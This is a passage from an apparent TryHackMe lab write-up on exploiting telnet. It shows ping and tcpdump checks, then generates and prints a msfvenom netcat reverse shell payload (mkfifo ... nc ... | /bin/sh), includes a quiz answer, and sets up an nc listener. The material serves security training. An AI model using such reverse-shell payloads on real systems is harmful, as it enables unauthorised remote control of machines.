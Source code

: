 Now, use the command **"ping [local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)  

Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!  


- Escuchamos pings

```
┌──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ sudo tcpdump -i tun0 icmp                       
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:21:34.008370 IP 10.10.208.209 > 10.13.81.73: ICMP echo request, id 1231, seq 1, length 64
00:21:34.008382 IP 10.13.81.73 > 10.10.208.209: ICMP echo reply, id 1231, seq 1, length 64
00:21:35.091621 IP 10.10.208.209 > 10.13.81.73: ICMP echo request, id 1231, seq 2, length 64
00:21:35.091635 IP 10.13.81.73 > 10.10.208.209: ICMP echo reply, id 1231, seq 2, length 64
00:21:36.012669 IP 10.10.208.209 > 10.13.81.73: ICMP echo request, id 1231, seq 3, length 64
00:21:36.012698 IP 10.13.81.73 > 10.10.208.209: ICMP echo reply, id 1231, seq 3, length 64


```



We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:  

**"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"**

-p = payload

lhost = our local host IP address (this is **your** machine's IP address)

lport = the port to listen on (this is the port on **your** machine)

R = export the payload in raw format  

```
┌──(kali㉿vbox)-[~/tmp/tryhackme/networkservices]
└─$ msfvenom -p cmd/unix/reverse_netcat lhost=10.13.81.73 lport=4444 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 93 bytes
mkfifo /tmp/oseee; nc 10.13.81.73 4444 0</tmp/oseee | /bin/sh >/tmp/oseee 2>&1; rm /tmp/oseee

```

### What word does the generated payload start with?  
mkfifo
  

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

**"nc -lvnp [listening port]"**
